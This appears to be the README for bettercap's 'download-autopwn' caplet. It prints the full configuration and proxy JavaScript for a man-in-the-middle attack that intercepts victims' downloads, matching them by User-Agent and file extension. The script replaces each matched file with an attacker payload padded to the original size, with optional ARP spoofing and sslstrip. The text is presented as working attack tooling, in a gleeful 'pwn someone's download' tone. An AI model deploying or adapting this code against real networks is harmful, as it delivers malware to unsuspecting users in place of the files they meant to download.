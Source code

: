 <p align="center"><img height="142px" src="https://cdn.rawgit.com/yungtravla/cdn/a5ec3cd7/github.com/bettercap/caplets/download-autopwn/dap.svg" /></p>


### caplets/download-autopwn.cap

Everything is configurable in the **download-autopwn.cap** file.

```sh
# documentation can be found at https://github.com/bettercap/caplets/blob/master/download-autopwn/README.md
# 
# this module lets you intercept very specific download requests and replaces the payload with one of your choice
#
# in order for a download to get intercepted:
#    1. the victim's user-agent string must match the downloadautopwn.useragent.x regexp value
#    2. the requested file must match one of the downloadautopwn.extensions.x file extensions
#
# you can find the downloadautopwn.devices in the caplets/download-autopwn/ folder (you can add your own)
#

# choose the devices from which downloads get pwned (enter the dir names of choice from caplets/download-autopwn/)
# (or feel free to add your own)
set downloadautopwn.devices android,ios,linux,macos,ps4,windows,xbox

# choose the regexp value that the victim's User-Agent has to match
# (feel free to add your own)
set downloadautopwn.useragent.android  Android
set downloadautopwn.useragent.ios      iPad|iPhone|iPod
set downloadautopwn.useragent.linux    Linux
set downloadautopwn.useragent.macos    Intel Mac OS X 10_
set downloadautopwn.useragent.ps4      PlayStation 4
set downloadautopwn.useragent.windows  Windows|WOW64
set downloadautopwn.useragent.xbox     Xbox

# choose which file extensions get intercepted and replaced by your payload on specific devices (payloads are in caplets/download-autopwn/.../)
# (again, you can add as many as you want)
# make sure the payload files exist and that they are all named "payload" (for example: payload.exe)
set downloadautopwn.extensions.android  apk,pdf,sh,pfx,zip
set downloadautopwn.extensions.ios      ipa,ios,ipb,ipsw,ipsx,ipcc,mobileconfig,pdf,zip
set downloadautopwn.extensions.linux    c,go,sh,py,rb,cr,pl,deb,pdf,jar,zip
set downloadautopwn.extensions.macos    app,dmg,doc,docx,jar,ai,ait,psd,pdf,c,go,sh,py,rb,pl,terminal,zip
set downloadautopwn.extensions.ps4      disc,pup,pdf,doc,docx,zip
set downloadautopwn.extensions.windows  exe,msi,bat,jar,dll,doc,docx,swf,psd,ai,ait,pdf,rar,zip
set downloadautopwn.extensions.xbox     exe,msi,jar,pdf,doc,docx,zip

# choose whether the proxy module resizes your payload to the requested file's size (if not set then default=false)
set downloadautopwn.resizepayloads true

# set download-autopwn.js as proxy script
set http.proxy.script caplets/download-autopwn.js
# uncomment if you want sslstrip enabled
# set http.proxy.sslstrip true
# start proxy
http.proxy on

# wait for everything to start properly
sleep 1

# uncomment if you want arp spoofing (make sure probing is off as it conflicts with arp spoofing)
# arp.spoof on
```

<br>

The `downloadautopwn.devices` variable accepts comma separated values. 
<br>
These values are the folder names inside the **caplets/download-autopwn/** directory.

<br>

The `downloadautopwn.useragent.x` variables accept a regular expression value (where `x` is the device name).
<br>
The victim's User-Agent string has to match this regex value.

<br>

The `downloadautopwn.extensions.x` variables accept comma separated file extensions that are present in the device's folder (where `x` is the device name).
<br>
These files must be present in the device's folder, and they must be called `payload` (for example: `payload.exe`).

<br>

The `downloadautopwn.resizepayloads` variable accepts a boolean value (default=false).
<br>
If this value is set to true, your payloads will be resized to match the requested file's size (unless your payload is bigger or equal to the requested file's size).

<br>

### caplets/download-autopwn.js

No changes should have to be made in the **download-autopwn.js** file.

```javascript
var targets = {}

var nullbyte = "\u0000"

var green   = "\033[32m",
    boldRed = "\033[1;31m",
    onRed   = "\033[41m",
    reset   = "\033[0m",
    redLine = "\n  " + onRed + " " + reset

function onLoad() {
	devices = env("downloadautopwn.devices").split(",")
	logStr = ""
	for (var i = 0; i < devices.length; i++) {
		item = {
			"device": devices[i],
			"useragent": env("downloadautopwn.useragent." + devices[i]),
			"extensions": env("downloadautopwn.extensions." + devices[i]).toLowerCase().split(",")
		}
		targets[i] = item
		logStr += "\n  " + green + targets[i]["device"] + reset +
		          "\n    User-Agent: " + targets[i]["useragent"] + 
		          "\n    Extensions: " + targets[i]["extensions"] + "\n"
	}
	log("Download Autopwn loaded.\n\nDownload Autopwn targets: \n" + logStr)
}

function onResponse(req, res) {
	// First of all check whether the requested path might have an extension (to save cpu)
	var requestedFileName = req.Path.replace(/.*\//g, "")
	if ( requestedFileName.indexOf(".") != -1 ) {
		var userAgent = req.GetHeader("User-Agent", ""),
		    extension,
		    headerCount = req.Headers.length
		// Iterate through targets
		for ( var t = 0; t < Object.keys(targets).length; t++ ) {
			// Check if User-Agent is a target
			regex = new RegExp(targets[t]["useragent"])
			if ( userAgent.match(regex) ) {
				// Iterate through target extensions
				for (var e = 0; e < targets[t]["extensions"].length; e++) {
					// Check if requested path contains a targeted extension
					// function endsWith() could be a nice simplification here
					if ( requestedFileName.replace(/.*\./g, "").toLowerCase() == targets[t]["extensions"][e] ) {
						extension = targets[t]["extensions"][e]
						// Autopwn
						logStr = "\n" + redLine + "  Autopwning download request from " + boldRed + req.Client.IP + reset + 
						         redLine + 
						         redLine + "  Found " + boldRed + extension.toUpperCase() + reset + " extension in " + boldRed + req.Hostname + req.Path + reset + 
						         redLine + 
						         redLine + "  Grabbing " + boldRed + targets[t]["device"].toUpperCase() + reset + " payload..."
						// Check requested file size
						requestedFile = res.ReadBody()
						requestedFileSize = requestedFile.length
						payload = readFile("/usr/local/share/bettercap/caplets/download-autopwn/" + targets[t]["device"] + "/payload." + extension)
						payloadSize = payload.length
						logStr += redLine + "  The size of the requested file is " + boldRed + requestedFileSize + reset + " bytes" + 
						          redLine + "  The raw size of your payload is " + boldRed + payloadSize + reset + " bytes" + redLine
						// Append nullbytes to payload if resizing is enabled and if requested file is larger than payload
						if ( env("downloadautopwn.resizepayloads") == "true" && requestedFileSize > payloadSize ) {
							logStr += redLine + "  Resizing your payload to " + boldRed + requestedFileSize + reset + " bytes..."
							sizeDifference = requestedFileSize - payloadSize
							nullbyteString = Array(sizeDifference + 1).join(nullbyte)
							payload += nullbyteString
						}
						// Set Content-Disposition header to enforce file download instead of in-browser preview
						res.SetHeader("Content-Disposition", "attachment; filename=\"" + requestedFileName + "\"")
						// Update Content-Length header in case our payload is larger than the requested file
						res.SetHeader("Content-Length", payload.length)
						logStr += redLine + "  Serving your payload to " + boldRed + req.Client.IP + reset + "...\n"
						log(logStr)
						res.Body = payload
					}
				}
			}
		}
	}
}
```

<br>

### Now you're all set to pwn!

#### What it looks like when you have configured a crazy amount of payloads

![screenshot 1](https://user-images.githubusercontent.com/29265684/37411166-e3796c46-27ed-11e8-94da-8e1c226a0dd3.png)

#### What it looks like when you pwn someone's download >:-)

![screenshot 2](https://user-images.githubusercontent.com/29265684/37409382-f6bb143e-27e9-11e8-86c5-c1c556900556.png)

Have fun!
